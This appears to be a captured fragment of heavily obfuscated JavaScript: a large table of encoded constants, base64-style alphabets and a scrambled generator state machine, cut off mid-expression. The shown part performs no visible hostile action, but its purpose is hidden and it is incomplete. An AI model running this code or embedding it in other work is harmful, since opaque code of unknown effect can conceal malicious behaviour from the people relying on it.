 const IUgw8Vk=["\x6c\x65\x6e\x67\x74\x68",0x2,0x0,0x1,0xe6,0x92,0x3,null,0x20,0xce,0x100,"\u0061",0x6,0x8,0x10,0x4,"\u0075\u006e\u0064\u0065\u0066\u0069\u006e\u0065\u0064","\u004c\u005a\u0053\u0074\u0072\u0069\u006e\u0067",0x1e,0x83,0xd0,"\x62",0xa0,0x9,"\u0067","\x65","\x64",0xff,0x7,0xd,0xe,0xf,0x58,0x5b,0xf0,0xc4,0x286,0x93,0x80,void 0x0,"\u0063",0x7f,0xdf,0x1f,0x3f,0xef,0xc,0x28c,0x12,0x282,0xdd,"\u0069",0x1fff,0x79,0x31,0x29,0x61,"\u0066",0xee,0x7a,0x7b,0x7c,0x7d,0x7e,0x5,0x41,0x81,0x1d,0xea,0x9f,0x4f,"\x68",0xaf,0x82,0xf4,0xf6,0xd9,0x84,0x85,0x86,0x87,0x88,0x89,0x8a,0x8b,0x8c,0x8d,0x8e,0x8f,0x90,0x91,0x94,0x95,0x96,0x97,0x98,0x99,0x9a,0x9b,0x9c,0x9d,0x9e,0xa1,0xa2,0xa3,0xa4,0xa5,0xa6,0xa7,0xa8,0xa9,0xaa,0xab,0xac,0xad,0xae,0xb0,0xb1,0xb2,0xb3,0xb4,0xb5,0xb6,0xb7,0xb8,0xb9,0xba,0xbb,0xbc,0xbd,0xbe,0xbf,0xc0,0xc1,0xc2,0xc3,0xc5,0xc6,0xc7,0xc8,0xc9,0xca,0x1c,0x71,0xcb,0xcc,0xcd,0xcf,0xd1,0x54,0x68,0xd2,0xd3,0xd4,0x57,0xeb,0xd5,0xd6,0xd7,0x39,0xf9,0xd8,0xda,0xdb,0xdc,0xde,0xe0,0xe1,0x42,0xe2,0xe3,0xe4,0xe5,0xe7,0x4b,0xe8,0xe9,0x12c,0xec,0xed,0x3c,0x18,0xf1,0xf2,0xf3,0xf5,0x1a,0x37,0xf7,0xf8,!0x1,0xfa,0xfb,0xfc,0xfd,0xfe,0x101,0x102,0x103,0x104,0x105,0x106,0x107,0x6e,0x5c,0x108,0x38,0x14,0x109,0x10a,0x72,0x10b,0x10c,0x48,0x10d,0x10e,0x10f,0x110,0x111,0x112,0x113,0x114,0x4a,0x115,0x3b,0x116,0x117,0x118,0x119,0x11a,0x11b,0x5f,0x6b,0x11c,0x11d,0x30,0x11e,0x11f,0x120,0x121,0x122,0x123,0x124,0x125,0x3d,0xb,0x126,0x127,0x128,0x129,0x12a,0x12b,0x12d,0x12e,0x12f,0x130,0x45,0x131,0x132,0x133,0x134,0x135,0x136,0x137,0x77,0x138,0x139,0x13a,0x13b,0x23,0x13c,0x13d,0x13e,0x13f,0x140,0x141,0x76,0x142,0x143,0x144,0x145,0x146,0x147,"\u002e",0x148,0x149,0x14a,0x14b,0x14c,0x14d,0x14e,0x14f,0x150,"\x09",0x151,0x152,0x153,0x154,0x155,0x156,0x157,0x158,0x159,0x15a,0x15b,0x15c,0x15d,0x15e,"\u0020",0x15f,0x160,"\x69\x64",0x161,0x162,0x163,0x164,0x165,0x166,0x167,0x168,0x64,0x52,0x5a,0x169,0x16a,0x1f4,0x16b,0x3e8,0x16c,0x16d,0x16e,0x16f,0x44,0x170,0x171,0x172,0x173,0x174,0x175,0x176,0x177,0x178,0x179,0x17a,0x17b,0x17c,0x17d,0x17e,0x17f,0x180,0x181,0x182,0x183,0x184,0x185,0x186,0x187,!0x0,0x188,0x189,0x18a,0x18b,0x18c,0x18d,0x18e,0x18f,0x190,0x191,0x192,0x193,0x194,0x195,0x196,"\x4e\x6f",0x197,0x198,0x199,0x19a,0x19b,0x19c,0x19d,0x19e,0x19f,0x1a0,0x1a1,0x1a2,0x1a3,0x1a4,0x1a5,0x1a6,0x1a7,0x1a8,0x1a9,0x1aa,0x1ab,0x1ac,0xffffe0,0x1ad,0x1ae,0x1af,0x1b0,0x1b1,0x1b2,0x1b3,0x1b4,0x1b5,0x1b6,0x1b7,0x6f,0x1b8,0x1b9,0x1ba,0x63,0x67,0x1bb,0x1bc,"\u002f",0x1bd,0x1be,0x1bf,0x1c0,0x1c1,0x1c2,0x1c3,0x1c4,0x1c5,0x69,0x5e,0x1c6,0x1c7,0x1c8,0x1c9,0x1ca,0x1cb,0x1cc,0x1cd,0x1ce,0x1cf,0x2d,0x1d0,0x1d1,0x1d2,0x1d3,0x1d4,0x1d5,0x1d6,0x1d7,0x1d8,0x1d9,0x1da,0x1db,0x1dc,0x1dd,0x1de,0x1df,0x1e0,0x1e1,0x1e2,0x1e3,0x1e4,0x1e5,0x1e6,0x1e7,0x1e8,0x1e9,0x1ea,0x1eb,0x1ec,0x1ed,0x1ee,0x1ef,0x1f0,0x43,0x1f1,0x1f2,0x19,0x1f3,0x1f5,0x1f6,0x1f7,0x4d,0x33,0x1f8,0x1f9,0x1fa,0x1fb,0x1fc,0x1fd,0x1fe,0x1ff,0x200,0x6c,0x201,0x202,0x203,0x204,0x205,0x206,0x207,0x208,0x209,0x20a,0x20b,0x34,0x20c,0x21,0x20d,0x20e,0x20f,0x210,0x211,0x212,0x213,0x214,0x215,0x216,0x217,0x218,0x219,0x21a,0x21b,0x21c,0x21d,0x21e,0x21f,"\x6f\x6b",0x220,0x221,0x222,0x223,0x51,0x224,0x225,0x226,0x227,0x228,0x229,0x22a,0x22b,0x22c,0x22d,0x22e,0x22f,0x230,0x231,0x232,0x233,0x234,0x235,0x236,0x237,0x238,0x239,0x23a,0x13,0x23b,0x23c,0x23d,0x23e,0x23f,0x240,0x241,0x242,0x243,0x244,0x245,0x246,0x247,0x248,0x249,0x24a,0x24b,0x24c,0x24d,0x24e,0x24f,0x250,0x251,0x252,0x253,0x6d,0x254,0x255,0x256,0x257,0x258,0x6a,0x259,0x25a,0x25b,0x25c,0x25d,0x25e,0x25f,0x260,0x261,0x262,0x263,0x264,0x265,0x266,0x267,0x268,0x269,0x26a,0x26b,0x26c,0x26d,0x26e,0x26f,0x270,0x271,0x272,0x4e,0x273,0x274,0x275,0x276,0x277,0x278,0x279,0x27a,0x27b,0x27c,0x27d,0x27e,0x27f,0x280,0x281,0x283,0x284,0x285,0x287,0x288,0x289,0x28a,0x28b,0x28d,0x28e,0x28f,0x290,0x291,0x292,0xa,0x28,0x66];e4p81M7(qi9oGe1(B2CuZsd,IUgw8Vk[0x6]),qi9oGe1(DNx_iK),qi9oGe1(r1mUZZr),qi9oGe1(g7kM4I),qi9oGe1(QKVaGNh));function qi9oGe1(qi9oGe1,ZxVJZBa=IUgw8Vk[0x3]){Object.defineProperty(qi9oGe1,IUgw8Vk[0x0],{value:ZxVJZBa,configurable:IUgw8Vk[0xbe]});return qi9oGe1}var oPnWRK0=function(...ZxVJZBa){e4p81M7(ZxVJZBa[IUgw8Vk[0x0]]=IUgw8Vk[0x2],qi9oGe1(J0Z67i4,IUgw8Vk[0x1]));var QKVaGNh=String.fromCharCode,g7kM4I="\u0041\u0042\u0043\u0044\u0045\u0046\u0047\u0048\u0049\u004a\u004b\u004c\u004d\u004e\u004f\u0050\u0051\u0052\u0053\u0054\u0055\u0056\u0057\u0058\u0059\u005a\u0061\u0062\u0063\u0064\u0065\u0066\u0067\u0068\u0069\u006a\u006b\u006c\u006d\u006e\u006f\u0070\u0071\u0072\u0073\u0074\u0075\u0076\u0077\u0078\u0079\u007a\u0030\u0031\u0032\u0033\u0034\u0035\u0036\u0037\u0038\u0039\u002b\u002f\u003d",oYWVpky="\u0041\u0042\u0043\u0044\u0045\u0046\u0047\u0048\u0049\u004a\u004b\u004c\u004d\u004e\u004f\u0050\u0051\u0052\u0053\u0054\u0055\u0056\u0057\u0058\u0059\u005a\u0061\u0062\u0063\u0064\u0065\u0066\u0067\u0068\u0069\u006a\u006b\u006c\u006d\u006e\u006f\u0070\u0071\u0072\u0073\u0074\u0075\u0076\u0077\u0078\u0079\u007a\u0030\u0031\u0032\u0033\u0034\u0035\u0036\u0037\u0038\u0039\u002b\u002d\u0024",A5w_TSa={};function J0Z67i4(...ZxVJZBa){function*QKVaGNh(QKVaGNh,oYWVpky,J0Z67i4={AeXWXo:{}}){while(QKVaGNh+oYWVpky!==0x30)with(J0Z67i4.kMQRNR||J0Z67i4)switch(QKVaGNh+oYWVpky){case J0Z67i4.AeXWXo.MIt2c1+0x108:return g7kM4I=!0x0,A5w_TSa[ZxVJZBa[IUgw8Vk[QKVaGNh+-0xc4]]][ZxVJZBa[IUgw8Vk[QKVaGNh+-0xc3]]];case-0xd7:case 0xc7:case QKVaGNh-0x2e:e4p81M7(J0Z67i4.kMQRNR=J0Z67i4.AeXWXo,QKVaGNh+=0x31,oYWVpky+=-0x86);break;default:case oYWVpky!=0x8f&&oYWVpky-0x180:e4p81M7(J0Z67i4.kMQRNR=J0Z67i4.AeXWXo,QKVaGNh+=0x246,oYWVpky+=-0x22f);break;case 0x56:case J0Z67i4.AeXWXo.tyVOBR+0xf1:e4p81M7(J0Z67i4.kMQRNR=J0Z67i4.AeXWXo,QKVaGNh+=-0x6f,oYWVpky+=-0x121);break;case oYWVpky!=-0x146&&oYWVpky!=-0x3b&&oYWVpky- -0x8d:[J0Z67i4.AeXWXo.tyVOBR,J0Z67i4.AeXWXo.M_h2zaf,J0Z67i4.AeXWXo.MIt2c1]=[0xa1,-0xf8,-0x25];return g7kM4I=!0x0,A5w_TSa[ZxVJZBa[IUgw8Vk[0x2]]][ZxVJZBa[IUgw8Vk[0x3]]];case 0x73:case QKVaGNh-